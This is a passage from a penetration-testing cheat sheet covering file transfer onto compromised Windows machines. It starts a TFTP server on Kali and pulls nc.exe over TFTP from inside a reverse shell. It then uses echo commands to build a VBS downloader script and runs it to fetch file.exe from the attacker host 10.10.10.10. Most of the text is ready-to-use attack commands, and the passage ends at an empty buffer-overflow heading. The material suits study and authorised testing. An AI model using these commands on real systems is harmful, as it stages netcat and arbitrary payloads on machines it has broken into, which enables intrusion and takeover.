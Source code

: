 Generic.

# In Kali

`atftpd --daemon --port 69 /tftp`

 # In reverse shell
` tftp -i 10.10.10.10 GET nc.exe`


VBS

When FTP/TFTP fails you, this wget script in VBS was the go to on Windows machines.

 # In   reverse shell
       echo   strUrl = WScript.Arguments.Item(0) > wget.vbs
       echo   StrFile = WScript.Arguments.Item(1) >> wget.vbs
       echo   Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
       echo   Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
       echo   Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
       echo   Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
       echo   Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
       echo   Err.Clear >> wget.vbs
       echo   Set http = Nothing >> wget.vbs
       echo   Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
       echo   If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
       echo   If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
       echo   If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
       echo   http.Open "GET",strURL,False >> wget.vbs
       echo   http.Send >> wget.vbs
       echo   varByteArray = http.ResponseBody >> wget.vbs
       echo   Set http = Nothing >> wget.vbs
       echo   Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
       echo   Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
       echo   strData = "" >> wget.vbs
       echo   strBuffer = "" >> wget.vbs
       echo   For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
       echo   ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
       echo   Next >> wget.vbs
       echo   ts.Close >> wget.vbs

 # Execute
    cscript wget.vbs http://10.10.10.10/file.exe file.exe




# Buffer Over flow

